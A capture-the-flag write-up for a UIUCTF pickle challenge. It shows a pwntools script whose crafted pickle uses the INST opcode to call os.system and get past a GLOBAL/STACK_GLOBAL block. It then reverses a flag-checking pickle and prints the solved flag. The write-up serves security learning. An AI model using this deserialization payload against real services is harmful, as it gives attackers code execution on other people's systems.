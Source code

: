# Part 1: Leak chal.py

```python
import pickletools
import base64
from pwn import *

r = process(["python3", "chal.py"])

r.recvuntil(b"Give me your best pickle (base64 encoded) to taste! ")

ops = {opcode.name: opcode.code.encode('latin-1') for opcode in pickletools.opcodes}

command = b"cat chal.py"

payload = b''
payload += ops["PROTO"] + p8(4)
payload += ops["MARK"]
payload += ops["SHORT_BINUNICODE"] + p8(len(command)) + command
payload += ops["INST"] + b'os' + b'\n' + b'system' + b'\n'
payload += ops["STOP"]

r.sendline(base64.b64encode(payload))
source_code = r.recvuntil(b"pickle.loads(cucumber)")

print(source_code)
open('chal_original.py', 'wb').write(source_code)
```

Key idea: Goal is to leak chal.py. GLOBAL and STACK_GLOBAL are blocked (used in the typical pickle RCE with REDUCE). They can be avoided using the INST opcode to get RCE as shown above.

# Part 2: Rev check_flag()

After leaking the chal source code, we can see a pickle that somehow can tell if the flag passed to the check_flag function is correct or not.

```python
import pickle
import pickletools

flag_guess = "uiuctf{}"
pick = b'\x80\x04\x96+\x00\x00\x00\x00\x00\x00\x00lbp`sg~S:_p\x7fnf\x81yJ\x8bzP\x92\x95\x8cr\x88\x9d\x90\x8c\x7fb\x96\xa0\xa3\x9e\xae^\xa4s\xa5\xa6y}\xc8\x94\x8c' + len(flag_guess).to_bytes(1, 'little') + flag_guess.encode() + b'\x94\x8c\x08builtins\x8c\x03all\x93\x94\x94\x8c\x08builtins\x8c\x04list\x93\x94\x94\x8c\x08builtins\x8c\x03map\x93\x94\x94\x8c\x05types\x8c\x08CodeType\x93\x94(K\x01K\x00K\x00K\x01K\x05KCC<|\x00d\x01\x19\x00t\x00t\x01\x83\x01k\x00o:|\x00d\x02\x19\x00t\x02t\x01|\x00d\x01\x19\x00\x19\x00\x83\x01d\x03|\x00d\x01\x19\x00d\x04\x17\x00\x14\x00\x17\x00d\x05\x16\x00k\x02S\x00(NK\x00K\x01K\x02KaK\xcbt\x8c\x03len\x8c\x01b\x8c\x03ord\x87\x8c\x01x\x85\x8c\x08<pickle>\x8c\x08<pickle>K\x07C\x00tR\x940\x8c\x05types\x8c\x0cFunctionType\x93\x94(h\t}(\x8c\x03len\x8c\x08builtins\x8c\x03len\x93\x94\x94\x8c\x01bh\x01\x8c\x03ord\x8c\x08builtins\x8c\x03ord\x93\x94\x94uN)tR\x8c\x08builtins\x8c\tenumerate\x93\x94\x94h\x00\x85R\x86R\x85R\x85R.'
open('output.pkl', 'wb').write(pick)
```

Let's analyze the pickle

```python
pickletools.dis(pick)
```

output

```python
0: \x80 PROTO      4
    2: \x96 BYTEARRAY8 bytearray(b'lbp`sg~S:_p\x7fnf\x81yJ\x8bzP\x92\x95\x8cr\x88\x9d\x90\x8c\x7fb\x96\xa0\xa3\x9e\xae^\xa4s\xa5\xa6y}\xc8')
   54: \x94 MEMOIZE    (as 0)
   55: \x8c SHORT_BINUNICODE 'uiuctf{}'
   65: \x94 MEMOIZE    (as 1)
   66: \x8c SHORT_BINUNICODE 'builtins'
   76: \x8c SHORT_BINUNICODE 'all'
   81: \x93 STACK_GLOBAL
   82: \x94 MEMOIZE    (as 2)
   83: \x94 MEMOIZE    (as 3)
   84: \x8c SHORT_BINUNICODE 'builtins'
   94: \x8c SHORT_BINUNICODE 'list'
  100: \x93 STACK_GLOBAL
  101: \x94 MEMOIZE    (as 4)
  102: \x94 MEMOIZE    (as 5)
  103: \x8c SHORT_BINUNICODE 'builtins'
  113: \x8c SHORT_BINUNICODE 'map'
  118: \x93 STACK_GLOBAL
  119: \x94 MEMOIZE    (as 6)
  120: \x94 MEMOIZE    (as 7)
  121: \x8c SHORT_BINUNICODE 'types'
  128: \x8c SHORT_BINUNICODE 'CodeType'
  138: \x93 STACK_GLOBAL
  139: \x94 MEMOIZE    (as 8)
  140: (    MARK
...
153: C        SHORT_BINBYTES b'|\x00d\x01\x19\x00t\x00t\x01\x83\x01k\x00o:|\x00d\x02\x19\x00t\x02t\x01|\x00d\x01\x19\x00\x19\x00\x83\x01d\x03|\x00d\x01\x19\x00d\x04\x17\x00\x14\x00\x17\x00d\x05\x16\x00k\x02S\x00'
...
  390: \x85 TUPLE1
  391: R    REDUCE
  392: .    STOP
```

The most important details are:\
BYTEARRAY8 bytearray(b'lbp`sg~S:\_p\x7fnf\x81yJ\x8bzP\x92\x95\x8cr\x88\x9d\x90\x8c\x7fb\x96\xa0\xa3\x9e\xae^\xa4s\xa5\xa6y}\xc8')\
SHORT_BINBYTES b'|\x00d\x01\x19\x00t\x00t\x01\x83\x01k\x00o:|\x00d\x02\x19\x00t\x02t\x01|\x00d\x01\x19\x00\x19\x00\x83\x01d\x03|\x00d\x01\x19\x00d\x04\x17\x00\x14\x00\x17\x00d\x05\x16\x00k\x02S\x00'

From here you can try to use fickling on `output.pkl`, but it won't work because of the BYTEARRAY8 opcode.\
You can choose to either implement that opcode in fickling or replace the bytearray with an empty regular array in the pickle to get it to work with fickling.\
I will go with the latter option.

```python
fixed_pick = b'\x80\x04]\x94\x8c' + len(flag_guess).to_bytes(1, 'little') + flag_guess.encode() + b'\x94\x8c\x08builtins\x8c\x03all\x93\x94\x94\x8c\x08builtins\x8c\x04list\x93\x94\x94\x8c\x08builtins\x8c\x03map\x93\x94\x94\x8c\x05types\x8c\x08CodeType\x93\x94(K\x01K\x00K\x00K\x01K\x05KCC<|\x00d\x01\x19\x00t\x00t\x01\x83\x01k\x00o:|\x00d\x02\x19\x00t\x02t\x01|\x00d\x01\x19\x00\x19\x00\x83\x01d\x03|\x00d\x01\x19\x00d\x04\x17\x00\x14\x00\x17\x00d\x05\x16\x00k\x02S\x00(NK\x00K\x01K\x02KaK\xcbt\x8c\x03len\x8c\x01b\x8c\x03ord\x87\x8c\x01x\x85\x8c\x08<pickle>\x8c\x08<pickle>K\x07C\x00tR\x940\x8c\x05types\x8c\x0cFunctionType\x93\x94(h\t}(\x8c\x03len\x8c\x08builtins\x8c\x03len\x93\x94\x94\x8c\x01bh\x01\x8c\x03ord\x8c\x08builtins\x8c\x03ord\x93\x94\x94uN)tR\x8c\x08builtins\x8c\tenumerate\x93\x94\x94h\x00\x85R\x86R\x85R\x85R.'
open('output.pkl', 'wb').write(fixed_pick)
```

Here's the output from fickling

```python
from types import CodeType
_var0 = CodeType(1, 0, 0, 1, 5, 67, b'|\x00d\x01\x19\x00t\x00t\x01\x83\x01k\x00o:|\x00d\x02\x19\x00t\x02t\x01|\x00d\x01\x19\x00\x19\x00\x83\x01d\x03|\x00d\x01\x19\x00d\x04\x17\x00\x14\x00\x17\x00d\x05\x16\x00k\x02S\x00', (None, 0, 1, 2, 97, 203), ('len', 'b', 'ord'), ('x',), '<pickle>', '<pickle>', 7, b'')
from types import FunctionType
_var1 = FunctionType(_var0, {'len': len, 'b': 'uiuctf{}', 'ord': ord}, None, ())
_var2 = enumerate([])
_var3 = map(_var1, _var2)
_var4 = list(_var3)
_var5 = all(_var4)
result0 = _var5
```

This code is creating some kind of function, then using it as the mapping function over all the elements in the bytearray.\
Since this is using `all`, the mapper must be returning True or False for a given letter.\
Thus its pretty clear that this code loops over all the elements in the bytearray, and compares them somehow to our input, returning True or False for each element.\
If all the elements are cause the mapper to return true, the pickle will evaluate to true, and we will likely have the flag.\
\
Let's look at the bytearray again

```python
arr = bytearray(b'lbp`sg~S:_p\x7fnf\x81yJ\x8bzP\x92\x95\x8cr\x88\x9d\x90\x8c\x7fb\x96\xa0\xa3\x9e\xae^\xa4s\xa5\xa6y}\xc8')
for c in arr:
  print(c)
```

output

```python
108
98
112
96
115
103
126
83
58
95
112
127
110
102
129
121
74
139
122
80
146
149
140
114
136
...
166
121
125
200
```

Ah, we have an an array of integers!

All that's left is to figure out what's in the function from earlier. I just copied the CodeType directly and wrote it to a pyc file.

```python
import importlib.util
from types import CodeType
import marshal

code = CodeType(1, 0, 0, 1, 5, 67, b'|\x00d\x01\x19\x00t\x00t\x01\x83\x01k\x00o:|\x00d\x02\x19\x00t\x02t\x01|\x00d\x01\x19\x00\x19\x00\x83\x01d\x03|\x00d\x01\x19\x00d\x04\x17\x00\x14\x00\x17\x00d\x05\x16\x00k\x02S\x00', (None, 0, 1, 2, 97, 203), ('len', 'b', 'ord'), ('x',), '<pickle>', '<pickle>', 7, b'')
data = bytearray(importlib.util.MAGIC_NUMBER)
data.extend((0).to_bytes(4, 'little'))
data.extend((0).to_bytes(4, 'little'))
data.extend((0).to_bytes(4, 'little')) # these values aren't important but are required
data.extend(marshal.dumps(code))

open('output.pyc', 'wb').write(data)
```

I used Decompyle++ (https://github.com/zrax/pycdc/tree/master) to convert it to source code. Here is the result:

```python
if x[0] < len(b):
    pass
return x[1] == (ord(b[x[0]]) + 2 * (x[0] + 97)) % 203
```

Let's clean this up with some more descriptive variable names, remembering that x is the parameter to the lambda and it is passed using `enumerate()`.

```python
return bytearray_num == (ord(guessed_flag[i]) + 2 * (i + 97)) % 203
```

Now it's fairly obvious what is happening. All that's left is to recover the flag.

```python
arr = bytearray(b'lbp`sg~S:_p\x7fnf\x81yJ\x8bzP\x92\x95\x8cr\x88\x9d\x90\x8c\x7fb\x96\xa0\xa3\x9e\xae^\xa4s\xa5\xa6y}\xc8')
flag = ""
for i in range(len(arr)):
  flag += chr((arr[i] - 2 * (i + 97)) % 203)
print(flag)
```

output

```
uiuctf{N3Ver_Und3r_3stiMate_P1ckles!e2ba24}
```

Challenge complete!
